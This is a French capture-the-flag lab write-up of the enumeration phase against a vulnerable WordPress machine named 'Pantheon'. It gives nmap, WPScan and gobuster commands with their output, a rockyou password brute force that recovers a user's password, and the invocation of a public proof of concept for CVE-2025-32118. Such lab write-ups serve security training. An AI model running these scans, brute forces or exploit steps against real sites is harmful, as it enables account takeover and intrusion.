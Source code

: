 # Énumération

## 🔍 Phase 1 : Reconnaissance Initiale

### Énumération Réseau

Commençons par découvrir les machines présentes sur le réseau cible.

```bash
# Scan de découverte du réseau
nmap -sn 192.168.56.1/24

# Résultat
Starting Nmap 7.93 ( https://nmap.org ) at 2025-06-22 14:02 CEST
Nmap scan report for 192.168.56.10
Host is up (0.00018s latency).
```

!!! success "Découverte"
    Une seule machine est visible sur le réseau : **192.168.56.10**

### Scan Complet de la Machine Cible

```bash
# Scan complet avec détection de services
nmap -sC -sV -p- 192.168.56.10

# Résultat
Nmap scan report for pantheon.god (192.168.56.10)
Host is up (0.0011s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 6.8.1
| http-robots.txt: 1 disallowed entry
|_/wp-admin/
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Pantheon
```

!!! info "Services Découverts"
    - **Port 22** : SSH (OpenSSH 7.6p1)
    - **Port 80** : HTTP (Apache 2.4.29 + WordPress 6.8.1)

## 🌐 Énumération Web

### Accès au Site Web

En accédant au port 80, nous sommes redirigés vers `pantheon.god`. Le site utilise WordPress 6.8.1.

### Énumération WordPress avec WPScan

```bash
# Scan agressif des plugins
wpscan --url "http://192.168.56.10/" --plugins-detection aggressive
```

#### Résultats Importants

!!! warning "Vulnérabilités Découvertes"
    - **Plugin CMP Coming Soon** : Version 4.1.13 (obsolète, dernière version 4.1.15)
    - **Directory listing** activé sur `/wp-content/uploads/`
    - **XML-RPC** activé
    - **WP-Cron** activé

#### Détails du Plugin Vulnérable

```bash
[+] cmp-coming-soon-maintenance
 | Location: http://pantheon.god/wp-content/plugins/cmp-coming-soon-maintenance/
 | Last Updated: 2025-04-30T08:07:00.000Z
 | Readme: http://pantheon.god/wp-content/plugins/cmp-coming-soon-maintenance/readme.txt
 | [!] The version is out of date, the latest version is 4.1.15
 | [!] Directory listing is enabled
 |
 | Found By: Known Locations (Aggressive Detection)
 | - http://pantheon.god/wp-content/plugins/cmp-coming-soon-maintenance/, status: 200
 |
 | Version: 4.1.13 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 | - http://pantheon.god/wp-content/plugins/cmp-coming-soon-maintenance/readme.txt
```

### Énumération de Répertoires

```bash
# Énumération des répertoires avec gobuster
gobuster dir -w /opt/lists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
  -u http://olympe.god/wp-content \
  -x txt,html,php
```

#### Découverte Critique

!!! success "Fichier Important Trouvé"
    ```
    /notes.txt            (Status: 200) [Size: 391]
    ```

### Analyse du Fichier Notes.txt

```bash
# Contenu du fichier notes.txt
curl http://olympe.god/wp-content/notes.txt
```

!!! tip "Indice Important"
    Le fichier contient une note indiquant que tous les dieux devaient changer leurs mots de passe et mettre un `y`, mais seul Hermès ne l'a pas fait.

## 🔐 Recherche de Credentials

### Brute Force sur WordPress

Basé sur l'indice trouvé, nous tentons un brute force sur l'utilisateur `hermes` :

```bash
# Brute force avec rockyou.txt
wpscan --url http://192.168.56.10 \
  --usernames hermes \
  --passwords /usr/share/wordlists/rockyou.txt
```

!!! success "Credentials Trouvés"
    - **Utilisateur** : hermes
    - **Mot de passe** : mondieu

## 🎯 Analyse de la Vulnérabilité CMP Coming Soon

### Recherche de POC

La version 4.1.13 du plugin CMP Coming Soon est vulnérable. Nous trouvons un POC sur GitHub :

```bash
# Téléchargement du POC
git clone https://github.com/Nxploited/CVE-2025-32118
cd CVE-2025-32118
```

### Vérification de la Vulnérabilité

```bash
# Test du POC
python3 CVE-2025-32118.py -u http://olympe.god/wordpress -un hermes -p mondieu
```

!!! warning "Vulnérabilité Confirmée"
    Le plugin permet un bypass d'authentification et l'upload de fichiers malveillants.

## 📊 Résumé de l'Énumération

### Points d'Entrée Identifiés

| Service | Vulnérabilité | Vecteur d'Attaque |
|---------|---------------|-------------------|
| **WordPress** | Plugin CMP Coming Soon 4.1.13 | Authentification bypass |
| **SSH** | Credentials faibles | Brute force possible |
| **Apache** | Directory listing | Information disclosure |

### Credentials Découverts

| Utilisateur | Mot de Passe | Source |
|-------------|--------------|--------|
| **hermes** | mondieu | Brute force WordPress |

### Fichiers Sensibles

- `/wp-content/notes.txt` : Indices sur les credentials
- `/wp-content/uploads/` : Directory listing activé
- `/wp-content/plugins/cmp-coming-soon-maintenance/` : Plugin vulnérable

## 🎭 Contexte Mythologique

### Hermès - Le Messager Vulnérable

Dans la mythologie grecque, Hermès est le messager des dieux, rapide et rusé. Dans notre lab :

- **Vulnérabilité** : Credentials faibles (hermes:y → hermes:mondieu)
- **Rôle** : Point d'entrée vers l'Olympe numérique
- **Scénario** : Intercepter les messages divins pour accéder au royaume

### Indices Thématiques

Le fichier `notes.txt` fait référence à un décret de Zeus demandant aux dieux de changer leurs mots de passe, créant un contexte narratif cohérent avec la thématique mythologique.

## 🚀 Prochaines Étapes

Avec ces informations, nous pouvons maintenant :

1. **Exploiter la vulnérabilité CMP Coming Soon**
2. **Obtenir un shell sur la machine**
3. **Élever nos privilèges vers l'utilisateur hermes**
4. **Explorer l'environnement pour d'autres vecteurs**

---

*L'énumération révèle les premières failles dans la défense de l'Olympe. Hermès, le messager divin, a laissé ses secrets exposés...* ⚡ 